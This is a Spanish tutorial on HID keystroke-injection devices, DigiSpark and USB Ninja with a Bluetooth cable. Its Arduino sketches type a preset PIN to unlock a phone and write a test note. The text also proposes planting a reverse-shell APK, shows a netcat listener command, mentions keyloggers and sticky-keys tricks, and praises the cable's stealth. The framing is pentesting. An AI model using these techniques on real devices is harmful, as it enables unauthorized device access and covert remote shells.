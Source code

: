 # DigiSpark y USB Ninja (Función)

En esta prueba veremos a como desbloquear el patron de un movil (Patron de numeros) pero ya programado sabiendo el patron y las funcionalidades del mismo una vez estando dentro del movil y las diferencias de los 2.

## DigiSpark General

### DigiSpark desbloqueo de patron y escribir una frase de prueba en un bloq de notas (movil)

Primero tendremos que programar mediante `Arduino` en el microcontrolador llamado `DigiSpark` volcarle el script que utilizaremos para el desbloqueo de pantalla cuando insertemos el mismo en el movil

Utilizaremos la biblioteca `DigiKeyboard`.

Instalaremos el software llamado `Arduino IDE`, despues echo esto entraremos dentro del mismo para programar el `DigiSpark`.

URL = [Arduino IDE](https://www.arduino.cc/en/software)

Dentro del software escribiremos algo parecido a esto:

```cpp
#include "DigiKeyboard.h"

void setup() {

  // Pausa para dar tiempo a que el móvil detecte el dispositivo

  DigiKeyboard.delay(5000);  // Espera 5 segundos para que el teléfono esté listo

  // Simular la entrada del patrón numérico (por ejemplo, "1234" como código de desbloqueo)

  DigiKeyboard.sendKeyStroke(KEY_1);  // Presiona '1'

  DigiKeyboard.delay(300);  // Breve pausa entre teclas

  DigiKeyboard.sendKeyStroke(KEY_2);  // Presiona '2'

  DigiKeyboard.delay(300);

  DigiKeyboard.sendKeyStroke(KEY_3);  // Presiona '3'

  DigiKeyboard.delay(300);

  DigiKeyboard.sendKeyStroke(KEY_4);  // Presiona '4'

  DigiKeyboard.delay(300);

  DigiKeyboard.sendKeyStroke(KEY_ENTER);  // Presiona 'Enter' para confirmar el PIN

  // Pausa para asegurarse de que el móvil se ha desbloqueado

  DigiKeyboard.delay(2000);

  // Abre el bloc de notas (simulación de teclas). Dependiendo del móvil, esto puede requerir ajustar los comandos.

  // Simula la búsqueda de la aplicación de Notas usando el botón de búsqueda en Android

  DigiKeyboard.sendKeyStroke(KEY_F3);  // Presiona la tecla 'Buscar'

  DigiKeyboard.delay(1000);

  DigiKeyboard.println("notas");  // Escribe "notas" en la búsqueda

  DigiKeyboard.delay(500);

  DigiKeyboard.sendKeyStroke(KEY_ENTER);  // Presiona 'Enter' para abrir la aplicación

  // Esperar un momento para que la aplicación se abra

  DigiKeyboard.delay(2000);

  // Escribir el mensaje de prueba en el bloc de notas

  DigiKeyboard.println("Este es un mensaje de prueba desde DigiSpark");

}

void loop() {

  // No es necesario repetir nada en el loop, ya que solo necesitamos ejecutar el código una vez

}
```

Y con esto lo que hara sera que cuando introduzcamos el `DigiSpark` en el movil, desbloqueara el patron programado y buscara el bloq de notas abriendolo y escribiendo en el mismo la frase de prueba.

Con esta tecnica tambien se podria descargar desde un servidor externo de `python3` un `APK` programada por nosotros que contenga una `Reverse Shell` y estando a la escucha desde un host nuestro de la siguiente forma:

```shell
nc -lvnp <PORT>
```

Podremos ganar acceso al sistema del movil mediante una terminal en nuestro host (Todo de forma automatizada).

O se podria hacer un `KeyLogger` para capturar los pulsos de teclas del patron o de informacion debil.

## USB Ninja + Cable Bluetooth General

### USB Ninja desbloqueo de patron y escribir una frase de prueba en un bloq de notas todo mediante un cable Bluetooth (movil)

El USB Ninja tiene 2 botones (A y B) que con ellos podremos desplegar diferentes cargas utiles hacia el dispositivo de la Victima (Las que programemos nosotros).

Todo este ataque se hara mediante `Bluetooth` ya que el USB Ninja lleva incorporado una antena por la que transmite la señal hacia un transmisor `Bluetooth` en el que estara conectado al dispositivo de la Victima, podremos utilizar el `Cable Ninja Bluetooth` que lleva incorporado todo lo anterior (Externamente es una cable normal de carga de tipo C, pero por dentro lleva un sistema `Bluetooth` para que se pueda conectar el USB Ninja)

En el equipo Atacante programamos mediante el software `Arduino IDE` el USB Ninja con las respectivas funciones de los botones que queremos que haga, por ejemplo estableceremos que cuando se presione el `Boton A` haga una fuerza bruta para desbloquear el patron y cuando se presione el `Boton B` que se habra el bloq de notas y se escriba la frase de prueba.

```cpp
#include <USBNinja.h>

void setup() {

  USBNinja.begin(); // Iniciar el USB Ninja
  
}

void loop() {

  // Cuando se presiona el botón A, se envía el patrón PIN para desbloquear el móvil

  if (USBNinja.buttonA()) {

    // Simular el ingreso del código PIN (por ejemplo, "1234")

    USBNinja.sendKeyStroke(KEY_1); // Presiona '1'

    USBNinja.delay(300);

    USBNinja.sendKeyStroke(KEY_2); // Presiona '2'

    USBNinja.delay(300);

    USBNinja.sendKeyStroke(KEY_3); // Presiona '3'

    USBNinja.delay(300);

    USBNinja.sendKeyStroke(KEY_4); // Presiona '4'

    USBNinja.delay(300);

    USBNinja.sendKeyStroke(KEY_ENTER); // Confirmar el PIN con 'Enter'

    USBNinja.delay(2000); // Pausa para asegurarse de que el teléfono se ha desbloqueado

  }

  // Cuando se presiona el botón B, abre el bloc de notas y escribe un mensaje de prueba

  if (USBNinja.buttonB()) {

    // Simular abrir el bloc de notas (ajustar según el dispositivo)

    USBNinja.sendKeyStroke(KEY_F3); // Buscar en el teléfono (F3 es una tecla común de búsqueda)

    USBNinja.delay(1000); // Esperar que aparezca el campo de búsqueda

    USBNinja.println("notas"); // Escribir "notas" en el campo de búsqueda

    USBNinja.delay(500); // Pausar antes de presionar Enter

    USBNinja.sendKeyStroke(KEY_ENTER); // Presiona 'Enter' para abrir la app de Notas

    USBNinja.delay(2000); // Esperar que la app de Notas se abra

    // Escribir el mensaje de prueba en el bloc de notas

    USBNinja.println("Este es un mensaje de prueba desde USB Ninja");

  }

}
```

Esto lo que hace es desbloquear el movil con el `Boton A` y cuando se presione el `Boton B` que se habra el bloq de notas y se escriba la frase de prueba.

A parte de el texto de prueba, se puede hacer mucho mas como por ejemplo `Reverse Shell` o `KeyLoggers`, tambien la tecnica de las `Stiky Keys`, etc...

URL = [Pagina USB Ninja](https://lab401.com/es-es/products/usbninja?srsltid=AfmBOoq-v9GiW8FI27gS4XAFEIymS1ttCIRpMyqGIhuVpUA9u\_KYtbAK)

## Conclusión final

El USB Ninja + el cable bluetooth es la mejor eleccion ya que a la hora de hacer pentesting en red team es muy eficaz y muchisimo mas discreto, sin embargo el DigiSpark es menos sigiloso y menos variedad de programación ya que es muy limitada.
